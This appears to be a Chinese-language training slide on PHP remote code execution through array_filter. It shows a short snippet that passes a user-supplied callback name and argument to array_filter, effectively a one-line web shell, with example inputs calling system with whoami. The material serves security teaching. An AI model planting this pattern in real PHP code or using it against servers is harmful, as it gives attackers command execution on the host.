

# 远程代码执行 - array_filter函数
array_filter(array $array [, callable $callback [, int $flag = 0]])

用回调函数过滤数组中的单元依次将array数组中的每个值传递到callback函数。
<?php
$cmd=$_POST[‘cmd’];
$array1=array($cmd);
$func=$_GET[‘func’];
array_filter($array1,$func);
//用回调函数过滤数组中的元素：array_filter(数组,函数)
//?func=system
//cmd=whoami
?>